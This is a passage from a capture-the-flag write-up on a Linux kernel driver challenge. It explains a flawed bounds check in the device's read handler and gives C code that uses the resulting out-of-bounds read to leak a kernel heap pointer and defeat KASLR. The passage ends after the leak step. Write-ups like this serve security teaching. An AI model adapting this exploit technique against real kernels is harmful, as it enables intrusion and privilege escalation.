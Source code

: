 We have to read `/dev/vda` to get the flag.

Whenever the char device is opened, it calls `checksumz_open`, which allocates a structure of type `checksum_buffer`.
Using the file descriptor, we can read from or write into the buffer. There are also some IOCTL handlers.
The challenge has `kaslr` enabled, so we need a leak first.

Let's look at the read function first. Even though it checks `buffer->read >= buffer->size` and we can read maximum
256 bytes, the check is wrongly implemented. It doesn't take into account the number of bytes we are trying to read.
So, if `buffer->read` is 500, and `buffer->size` is 512, we can still read 256 bytes and achieve out-of-bounds read.

We can get a heap leak by leaking the `->name` field of the `checksum_buffer`, which is returned by `kzalloc`.
`buffer->size` is 512, so we can set `buffer->pos` to 511 to be able to read again without triggering the `if` check.
We have 1 char left from the `->state`, then 2 qwords (`->size` and `->read`) and then the heap leak, `->name`.

```c
size_t leak_heap(int fd) {
    // set buf->pos to 511
    {
        {
            char buf[256] = { 0 };
            read(fd, buf, sizeof buf);
        }

        {
            char buf[255] = { 0 };
            read(fd, buf, sizeof buf);
        }
    }

    // now that we can read out of bounds, read the 
    // buffer structure
    {
        struct {
            char __padding;
            size_t size;
            size_t read;
            char* name;

        } __attribute__((packed)) buf;
        read(fd, &buf, sizeof buf);

        return (size_t)buf.name;
    }
}
```
